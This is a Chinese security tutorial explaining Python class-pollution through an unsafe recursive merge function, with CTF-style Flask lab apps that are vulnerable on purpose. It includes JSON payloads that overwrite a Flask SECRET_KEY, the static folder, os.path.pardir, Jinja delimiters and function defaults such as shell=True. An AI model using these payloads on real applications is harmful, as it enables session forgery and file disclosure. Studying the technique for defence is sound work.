

# 浅谈Python原型链污染及利用方式 - 先知社区

浅谈Python原型链污染及利用方式

- - -

# Python原型链污染

之前学了Nodejs原型链污染，然后在NSS二周年的时候出现了一道python原型链污染，当时也是没有接触过，直接搜了搜对着Article\_kelp师傅的文章学了以后打的，然后就没有再关注过，最近新生出题的时候又想起了这个考点，发现还没有正儿八经好好的研究一下，顺便培养一下自己的知识迁移能力，来填一下python原型链污染的这个坑。

## 简介：

Python原型链污染和Nodejs原型链污染的根本原理一样，Nodejs是对键值对的控制来进行污染，而Python则是对类属性值的污染，且只能对类的属性来进行污染不能够污染类的方法。

## 危险代码段：

这里对应的merge函数就是python中对属性值控制的一个操作，我们来简单的解释一下：merge中我们结合nodejs的merge来理解，就是将源参数赋值到目标参数。

然后对src中的键值对进行了遍历，然后检查dst中是否含有`__getitem__`属性，以此来判断dst是否为字典。如果存在的话，检测dst中是否存在属性k且value是否是一个字典，如果是的话，就继续嵌套merge对内部的字典再进行遍历，将对应的每个键值对都取出来。如果不存在的话就将src中的value的值赋值给dst对应的key的值。

如果dst不含有getitem属性的话，那就说明dst不是一个字典，就直接检测dst中是否存在k的属性，并检测该属性值是否为字典，如果是的话就再通过merge函数进行遍历，将k作为dst，v作为src，继续取出v里面的键值对进行遍历。

```plain
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

所以我们可以发现，我们可以通过对src的控制，来控制dst的值，来达到我们污染的目的。

## 污染过程分析：

我们模仿一遍污染过程进行一下调试分析，把断点下在merge操作下：

```plain
class father:
    secret = "hello"
class son_a(father):
    pass
class son_b(father):
    pass
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
instance = son_b()
payload = {
    "__class__" : {
        "__base__" : {
            "secret" : "world"
        }
    }
}
print(son_a.secret)
#hello
print(instance.secret)
#hello
merge(payload, instance)
print(son_a.secret)
#world
print(instance.secret)
#world
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132100-6d23b188-869b-1.png)

然后我们发现，我们自行控制的payload作为src传入merge函数，目标实例instance作为dst传入，并且将payload对应的k和v的值取了出来：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132110-733a4b22-869b-1.png)

因为v中不存在`__getitem__`，所以跳到了elif语句下面，又因为v被识别为了dict:1,表明v是一个字典且下面还有一个键值对，所以进入elif语句下面，于是递归将v作为src再走一遍merge函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132148-89b86bb8-869b-1.png)

直到第三遍，遍历到最里面的secret:world以后进入else的setattr函数：

```plain
def setattr(x, y, v): # real signature unknown; restored from __doc__
    """
    Sets the named attribute on the given object to the specified value.

    setattr(x, 'y', v) is equivalent to ``x.y = v''
    """
    pass
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132219-9c083e2e-869b-1.png)

然后完成dst.k=v的污染，这样我们就将instance.secret=world污染成功，后续merge还会再进行两次循环，因为for循环里面的k,和v还未循环完成。

## 个例：

上面的示例代码中我们污染的是类对象属性son.b()，但是并不是说什么什么类型都能被污染，如Object：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132236-a684fa04-869b-1.png)

所以我们要污染的目标类能够被切入点类或对象可以通过属性值查找获取到

## 获取目标类：

上面示例我们是通过`__base__`属性查找到继承的父类，然后污染到的父类中的secret参数，但是如果目标类与切入点没有父子类继承关系，那我们就无法用`__base__`属性来进行对目标类的获取和污染

### 获取全局变量：

在函数或类方法中，我们经常会看到`__init__`初始化方法，但是它作为类的一个内置方法，在没有被重写作为函数的时候，其数据类型会被当做装饰器，而装饰器的特点就是都具有一个全局属性`__globals__`属性，`__globals__` 属性是函数对象的一个属性，用于访问该函数所在模块的全局命名空间。具体来说就是，`__globals__` 属性返回一个字典，里面包含了函数定义时所在模块的全局变量。

```plain
a=1
def demo():
    pass
class A :
    def __init__(self):
        pass
print(demo.__globals__==globals()==A.__init__.__globals__)
```

然后我们就可以通过`merge`加上`globals`来获得对应的全局变量：

```plain
a = 1
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
def demo():
    pass
class A:
    def __init__(self):
        pass
class B:
    classa = 2

instance = A()
payload = {
    "__init__":{
        "__globals__":{
            "a":4,
            "B":{
                "classa":5
            }
        }
    }
}
print(B.a)
print(a)
merge(payload, instance)
print(B.a)
print(a)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132251-af51c900-869b-1.png)

### 获取其他模块:

在全局变量的前提下，是我们都在入口文件中的类对象或者属性来进行操作的，但是如果我们操作的位置在入口文件中，而目标对象并不在入口文件当中，这时候我们就需要对其他加载过的模块来获取了

#### import加载获取：

在简单的关系情况下，我们可以直接通过import来进行加载，在payload中我们只需要对对应的模块重新定位就可以：

```plain
import demo
payload = {
    "__init__":{
        "__globals__":{
            "demo":{
                "a":4,
                "B":{
                    "classa":5
                }
            }
        }
    }
}
##demo.py
a = 1
class B:
    classa = 2
```

#### sys模块加载获取：

在很多环境当中，会引用第三方模块或者是内置模块，而不是简单的import同级文件下面的目录，所以我们就要借助sys模块中的module属性，这个属性能够加载出来在自运行开始所有已加载的模块，从而我们能够从属性中获取到我们想要污染的目标模块：

同样是刚才的情景，因为我们已经加载过demo.py了，所以我们用sys来对里面的目标进行获取,但是存在一个问题就是，我们的payload传参的时候大概率是在它源码已有的基础上进行传参，很有可能源码中没有引入。

```plain
import sys
payload = {
    "__init__":{
        "__globals__":{
            "sys":{
                "modules":{
                    "demo":{
                        "a":4,
                        "B":{
                            "classa":5
                        }
                    }
                }
            }
        }
    }
}
```

#### 加载器loader获取：

loader加载器在python中的作用是为实现模块加载而设计的类，其在`importlib`这一内置模块中有具体实现。而`importlib`模块下所有的`py`文件中均引入了`sys`模块，这样我们和上面的sys模块获取已加载模块就联系起来了，所以我们的目标就变成了只要获取了加载器loader，我们就可以通过`loader.__init__.__globals__['sys']`来获取到sys模块，然后再获取到我们想要的模块。

那么我们现在的目标就变成了获取loader：

在Python中，`__loader__`是一个内置的属性，包含了加载模块的loader对象，Loader对象负责创建模块对象，通过`__loader__`属性，我们可以获取到加载特定模块的loader对象。

```plain
import math
# 获取模块的loader
loader = math.__loader__
# 打印loader信息
print(loader)
```

在这个例子当中我们就能够明白，math模块的`__loader__`属性包含了一个loader对象，负责加载math模块

在python中还存在一个`__spec__`，包含了关于类加载时候的信息，他定义在`Lib/importlib/_bootstrap.py`的类`ModuleSpec`，所以可以直接采用`<模块名>.__spec__.__init__.__globals__['sys']`获取到`sys`模块

## 函数形参默认值替换：

在Python中，`__defaults__`是一个元组，用于存储函数或方法的默认参数值。当我们去定义一个函数时，可以为其中的参数指定默认值。这些默认值会被存储在`__defaults__`元组中。

```plain
def a(var_1, var_2 =2, var_3 = 3):
    pass
print(a.__defaults__)
#(2, 3)
```

所以我们就可以通过替换该属性，来实现对函数位置或者是键值默认值替换，但是前提条件是我们要替换的值是元组的形式：\`

```plain
payload = {
    "__init__" : {
        "__globals__" : {
            "demo" : {
                "__defaults__" : (True,)
            }
        }
    }
}
```

`__kwdefaults__`是以字典形式来进行收录：

```plain
payload = {
    "__init__" : {
        "__globals__" : {
            "demo" : {
                "__kwdefaults__" : {
                    "shell" : True
                }
            }
        }
    }
}
```

## 关键信息替换：

### flask密钥替换：

如果我们可以对密钥进行替换，赋值为我们想要的，我们就可以进行任意的session伪造，这里因为secret\_key是在当前入口文件下面的，所以我们可以直接通过`__init__.__globals__`获取全局变量，然后通过app.config\["SECRET\_KEY"\]来进行污染：下面用一下师傅的示范的板子

```plain
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "[+]Config:%s"%(app.config['SECRET_KEY'])

app.run(host="0.0.0.0")
```

这里我们并无法确定secretkey是什么，所以如果能够污染我们就可以实现任意的session伪造

```plain
{
    "__init__" : {
        "__globals__" : {
            "app" : {
                "config" : {
                    "SECRET_KEY" :"Polluted~"
                }
            }
        }
    }
}
```

### \_got\_first\_request：

用于判定是否某次请求为自`Flask`启动后第一次请求，是`Flask.got_first_request`函数的返回值，此外还会影响装饰器`app.before_first_request`的调用，而`_got_first_request`值为假时才会调用：

所以如果我们想调用第一次访问前的请求，还想要在后续请求中进行使用的话，我们就需要将\_got\_first\_request从true改成false然后就能够在后续访问的过程中，仍然能够调用装饰器app.before\_first\_request下面的可用信息。

```plain
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

flag = "Is flag here?"

@app.before_first_request
def init():
    global flag
    if hasattr(app, "special") and app.special == "U_Polluted_It":
        flag = open("flag", "rt").read()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    global flag
    setattr(app, "special", "U_Polluted_It")
    return flag

app.run(host="0.0.0.0")
```

```plain
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "_got_first_request":False
            }
        }
    }
}
```

### \_static\_url\_path:

当python指定了static静态目录以后，我们再进行访问就会定向到static文件夹下面的对应文件而不会存在目录穿梭的漏洞，但是如果我们想要访问其他文件下面的敏感信息，我们就需要污染这个静态目录，让他自动帮我们实现定向

```plain
#static/index.html

<html>
<h1>hello</h1>
<body>    
</body>
</html>
```

```plain
@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "flag in ./flag but heres only static/index.html"
```

```plain
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "_static_folder":"./"
            }
        }
    }
}
```

### os.path.pardir:

套一下师傅的示例脚本来学习一下：

```plain
#app.py

from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "flag in ./flag but heres only static/index.html"


app.run(host="0.0.0.0")
```

我们进行目录穿梭进行访问发现报了500的错误：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132316-bdfee41a-869b-1.png)

然后我们找到temlating.py下面的报错信息，然后逐步跟一下找到了报500的代码块:

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132324-c2c27d54-869b-1.png)

这个地方就是模板渲染的时候，防止目录穿梭进行的一个操作，而我们的os.path.pardir恰好是我们的..所以会进行报错，所以我们如果把这个地方进行修改为除..外的任意值，我们就可以进行目录穿梭了。

```plain
payload={
    "__init__":{
        "__globals__":{
            "os":{
                "path":{
                    "pardir":","
                }
            }
        }
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132330-c6cbf36c-869b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132334-c915b4aa-869b-1.png)

## Jinja语法标识符：

我们在学习SSTI的时候，语法标识符{{}}是解析jinja语法重要的一个东西，那么我们能不能对这个东西进行修改呢：在Jinja的文档中，提到了对Jinja环境类的相关属性问题，文档中提到说，如果此类的实例未共享并且尚未加载模板的话，我们就可以修改此类的实例

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132340-cc973388-869b-1.png)

而师傅在文章中又提到了对Flask底层的一个研究，就是在Flask中使用的Flask类的装饰器以后，jinja\_env方法实现了上述的功能点：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132349-d1e92bc0-869b-1.png)

我们跟进下create\_jinja\_environment()函数，发现`jinja_env`方法返回值就是`Jinja`中的环境类：`jinja_environment = Environment`，所以我们可以直接采用类似`Flask.jinja_env.variable_start_string = "xxx"`来实现对`Jinja`语法标识符进行替换

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132356-d62fe7e6-869b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132404-dadcedb6-869b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132412-df9ceba8-869b-1.png)

```plain
#templates/index.html

<html>
<h1>Look this -> [[flag]] <- try to make it become the real flag</h1>
<body>    
</body>
</html>
```

```plain
#app.py

from flask import Flask,request,render_template
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "go check /index before merge it"


@app.route('/index',methods=['POST', 'GET'])
def templates():
    return render_template("test.html", flag = open("flag", "rt").read())

app.run(host="0.0.0.0")
```

我们想要通过{{flag}}的话，就需要将语法标识符进行替换，这里我们就将语法标识符从{{}}，替换为\[\[\]\]这样的话，\[\[flag\]\]就能够像{{flag}}一样被解析了。

```plain
{
    "__init__" : {
        "__globals__" : {
            "app" : {
                    "jinja_env" :{
"variable_start_string" : "[[","variable_end_string":"]]"
}        
            }
        }
    }
```

但是在Flask框架当中，他会对模板文件编译后进行一定的缓存，下次再需要渲染的时候，直接使用缓存里面的模板文件，这样的话我们修改后语法标识符里面的flag变量并没有被放到缓存当中，所以没有自动填充flag，所以我们需要在Flask启动以后先输入payload再访问路由，这样就可以做到先污染再访问模板

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119132425-e71a341c-869b-1.png)

参考文章：  
[https://jinja.palletsprojects.com/en/2.10.x/](https://jinja.palletsprojects.com/en/2.10.x/)  
[https://tttang.com/archive/1876/](https://tttang.com/archive/1876/)  
[https://blog.csdn.net/Elite\_\_zhb/article/details/131877828](https://blog.csdn.net/Elite__zhb/article/details/131877828)  
[https://github.com/Myldero/ctf-writeups/tree/master/idekCTF%202022/task%20manager](https://github.com/Myldero/ctf-writeups/tree/master/idekCTF%202022/task%20manager)
